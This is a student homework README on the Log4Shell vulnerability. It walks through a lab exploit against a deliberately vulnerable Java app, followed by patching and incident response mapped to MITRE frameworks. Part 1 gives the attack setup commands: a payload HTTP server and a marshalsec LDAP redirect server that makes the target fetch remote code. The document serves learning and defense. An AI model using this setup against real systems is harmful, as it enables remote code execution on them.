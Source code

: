 # Week9: Log4Shell Vulnerability Homework

Introduction: This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8080 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
# HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

# LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit



## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.

## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces
- Contain: Vulnerable container stopped
- Eradicate: Patched container deployed
- Recover: System restored with mitigation verified

---

## Conclusion and Lessons Learned

- Logging libraries must be treated as part of the attack surface.
- Validate all input even when passed to internal services.
- MITRE frameworks provide a clear guide for security lifecycle management.

---

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

